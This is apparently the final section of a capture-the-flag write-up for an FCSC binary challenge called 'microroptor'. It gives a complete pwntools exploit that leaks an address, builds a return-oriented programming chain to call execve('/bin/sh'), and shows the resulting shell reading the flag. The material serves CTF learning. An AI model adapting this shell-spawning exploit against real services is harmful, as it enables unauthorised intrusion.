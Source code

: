 FINAL EXPLOIT:

```python
from pwn import *

process = remote('localhost', 4000)

leak = process.recvline().decode().strip()
elf_address = int(leak, 16) - 16400

print(f"Leaked address: {leak}")
print(f"Calculated ELF base address: 0x{elf_address:x}")

pop_rax = elf_address + 0x000000000000116d
pop_rdi = elf_address + 0x000000000000116f
mov_rdi_rax = elf_address + 0x0000000000001169
syscall = elf_address + 0x0000000000001173
pop_rsi_pop_r15 = elf_address + 0x0000000000001249
pop_rdx = elf_address + 0x0000000000001171

bin_sh_address = elf_address + 16480

bin_sh_hex = u64(b"/bin/sh\x00")

rop = b"A" * 40
rop += p64(pop_rdi)
rop += p64(bin_sh_address)
rop += p64(pop_rax)
rop += p64(bin_sh_hex)
rop += p64(mov_rdi_rax)

rop += p64(pop_rdi)
rop += p64(bin_sh_address)
rop += p64(pop_rsi_pop_r15)
rop += p64(0)*2
rop += p64(pop_rdx)
rop += p64(0)
rop += p64(pop_rax)
rop += p64(59)
rop += p64(syscall)

process.sendline(rop)

process.interactive()
```
Once launched

```bash
└─$ python3 exploit.py
[+] Opening connection to localhost on port 4000: Done
Leaked address: 0x55b5365b2010
Calculated ELF base address: 0x55b5365ae000
[*] Switching to interactive mode
Nope, you are no master.
$ ls
flag
microroptor
$ cat flag
FCSC{e3752da07f2[....]cf36f9258}
$
```
 if you have any questions you can dm me on discord : "zeletix."